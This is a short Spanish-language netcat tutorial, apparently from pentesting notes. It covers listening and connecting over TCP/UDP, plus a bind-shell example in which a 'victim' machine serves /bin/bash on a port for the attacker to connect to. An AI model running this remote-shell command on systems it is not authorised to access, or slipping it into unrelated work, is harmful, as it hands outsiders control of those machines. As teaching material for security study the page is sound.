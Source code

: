 # ¿Qué es?

Es conocido por muchos como la navaja suiza para TCP/IP, ya que provee de una gran cantidad de funcionalidad para manejar conexiones.
# Uso
## Ponerse en escucha

Podemos ponernos en escucha de la siguiente forma:

```bash
netcat -lvnp <port>
```

Con `-l`, especificamos que queremos escuchar; con `-v` hacemos que nos reporte las conexiones por pantalla (*verbose*); con `-n` podemos hacer que sólo escuche ips numéricas (no dns); y con `-p` especificamos el puerto.

Para **udp** utilizamos el parámetro `-u`.

## Conectarse con netcat

```bash
nc -v <ip> <port>
```

Para **udp** utilizamos el parámetro `-u`.

## Bind shell

Con el parámetro `-e` podemos hacer que al conectarse se ejecute un comando, de forma que podemos hacer que una máquina víctima ejecute una shell al conectarnos con nuestra máquina de atacante:

```bash
nc -lvnp <port> -e /bin/bash
```

Y desde nuestra máquina nos conectaríamos:

```bash
nc -v <ip> <port>
```

## Parámetros interesantes

- Con `-r` podemos randomizar el puerto.